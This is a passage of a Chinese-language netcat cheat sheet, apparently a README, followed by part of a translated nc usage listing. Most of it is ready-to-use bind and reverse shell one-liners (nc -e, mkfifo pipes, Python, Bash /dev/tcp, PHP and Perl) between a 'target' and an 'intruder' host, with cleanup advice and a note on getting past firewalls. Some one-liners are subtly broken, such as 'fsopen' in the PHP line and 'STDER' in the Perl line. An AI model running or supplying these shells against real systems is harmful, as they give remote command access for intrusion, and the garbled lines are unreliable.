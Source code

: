 ```nc -nv 192.168.1.1 443```
    目标主机(192.168.1.1)：  
    ```mkfifo /tmp/f```  
    ```cat /tmp/f | /bin/bash 2>&1 | /bin/nc.openbsd -l -p 8080 > /tmp/f```  
    入侵主机(192.168.1.2)：```nc 192.168.1.1 8080```  
        + ctrl+c结束会话
        + 使用后需删除```/tmp/f```
        + 反向shell用于突破防火墙，进行端口转发  

    - 反向SHELL
    GNU版本：  
    目标主机(192.168.1.1)：```nc 192.168.1.2 8080 -e /bin/bash```  
    入侵主机(192.168.1.2)：```nc -l -p 8080```  
    OpenBsd版本：  
    目标主机(192.168.1.1)：  
    ```mkfifo /tmp/f```  
    ```cat /tmp/f | /bin/bash 2>&1 | /bin/nc.openbsd 192.168.1.2 8080 > /tmp/f```  
    入侵主机(192.168.1.2)：```nc -l -p  8080```  
        + ctrl+c结束会话
        + 使用后需删除```/tmp/f```
    当目标主机中没有nc时：
    1. python反向shell  
    目标主机：```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```  
    入侵主机(192.168.1.2)：```nc -v -l -p 1234```  
    2. Bash反向shell  
    目标主机：```bash -i >& /dev/tcp/192.168.1.2/1234 0>&1```  
    入侵主机(192.168.1.2)：```nc -v -l -p 1234```  
    3. PHP反向shell  
    目标主机：```php -r '$socke=fsopen("192.168.1.2",1234);exec("/bin/sh -i <&3 >&3");'```  
    入侵主机(192.168.1.2)：```nc -v -l -p 1234```  
    4. Perl反向shell  
    目标主机：```perl -e 'use Socket;$i="192.168.1.2";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(&p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDER,">&S");exec("/bin/sh -i");};'```  
    入侵主机(192.168.1.2)：```nc -v -l -p 1234```  
## 参数说明
### Linux OpenBSD版本：  
```
OpenBSD netcat (Debian patchlevel 1.217-3)  
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
          [-m minttl] [-O length] [-P proxy_username] [-p source_port]
          [-q seconds] [-s sourceaddr] [-T keyword] [-V rtable] [-W recvlimit]
          [-w timeout] [-X proxy_protocol] [-x proxy_address[:port]]
          [destination] [port]
        Command Summary:
                -4              使用 IPv4模式（默认）
                -6              使用 IPv6模式
                -b              允许广播
                -C              连接后发送此参数后shell命令
                -D              启用socket调试
                -d              分离stdin
                -F              保持socket fd
                -h              显示帮助
                -I length       设置TCP接收缓冲区长度
                -i interval     设置连接建立后每一行传送的数据或者多个端口扫描之间的时间间隔
                -k              为多个连接保持监听（在一个连接断开后仍进行监听）
                -l              开启监听模式，等待外部连接  
                -M ttl          设置传出TTL
                -m minttl       设置传入TTL
                -N              在stdin上读取到EOF后关闭连接  
                -n              禁止任何DNS解析  
                -O length       TCP发送缓冲区长度  